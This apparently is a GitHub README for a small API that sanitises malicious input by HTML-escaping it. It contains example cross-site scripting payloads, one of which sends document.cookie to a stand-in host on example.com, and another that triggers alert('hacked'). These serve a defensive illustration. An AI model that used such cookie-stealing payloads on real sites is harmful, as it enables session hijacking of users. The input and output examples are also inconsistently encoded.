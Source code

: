 # Malicious-Code-Sanitizer
An API/Library to Sanitize Malicious Code Input : Malicious Code  Eg. '>&lt;script>document.location= 'http://www.example.com/index.php? param='+document.cookie&lt;/script>' Output : &lt;script>document.location= 'http://www.example.com/index.php? param='+document.cookie&lt;/script>'  API Structure : domain.com/sanitizestring/string="'>&lt;script>alert("hacked");&lt;/script>" JSON Response of API  : { "BadString" : "'>&lt;script>alert("hacked");&lt;/script>", "CleanedString":"&lt;script>alert("hacked");&lt;/script>" }
